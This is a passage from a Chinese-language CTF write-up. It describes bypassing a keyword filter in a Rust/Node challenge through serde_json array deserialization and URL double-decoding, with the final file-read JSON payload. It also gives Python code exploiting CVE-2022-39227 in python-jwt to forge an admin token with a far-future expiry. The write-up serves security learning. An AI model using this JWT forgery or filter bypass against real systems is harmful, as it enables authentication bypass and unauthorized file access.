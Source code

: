 ```rust
if json_body_obj.keys().any(|key| key == BLACK_PROPERTY) {
    return String::from("./main.rs");
}
```

想着用 hex 或者 unicode 绕过, 结果 nodejs 这句 `let body = req.body.toString();` 也把这种方法给 ban 掉了

后来根据 rust 引用的 `serde_json`, 到网上搜了一下

[https://brycec.me/posts/corctf_2022_challenges#rustshop](https://brycec.me/posts/corctf_2022_challenges#rustshop)

[https://blog.maple3142.net/2022/08/07/corctf-2022-writeups/#rustshop](https://blog.maple3142.net/2022/08/07/corctf-2022-writeups/#rustshop)

[https://pysnow.cn/archives/330/](https://pysnow.cn/archives/330/)

前两篇文章的意思是说 serde json 这个库既可以按照 dict 的 key-value 格式进行反序列化, 也可以按照 array 的格式按照顺序进行反序列化 (参照 struct 的结构)

刚好以 array 的形式反序列化时不需要传递 key, 从而绕过了对 protocol 关键词的检测

第三篇文章是说 URL 对象会对属性进行二次 urldecode, 正好可以用来绕过对 flag 关键词的检测

于是最终 payload 如下

```json
[
 "file:",
 "1",
 "1",
 "/%66%6c%61%67",
 ""
]
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302112882.png)

## FunWEB[复现]

赶在题目环境关闭前问了下学长思路然后复现了一波

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302200660.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302200628.png)

题目存在 jwt, 用的是 python-jwt 库最近的漏洞 CVE-2022-39227

[https://github.com/davedoesdev/python-jwt/commit/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9](https://github.com/davedoesdev/python-jwt/commit/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9)

具体的 exp 在 commit 记录里面, 需要自己手动改

```python
from datetime import timedelta
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode

def topic(topic):
    """ Use mix of JSON and compact format to insert forged claims including long expiration """
    [header, payload, signature] = topic.split('.')
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload['is_admin'] = 1
    parsed_payload['exp'] = 2000000000
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
    return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
```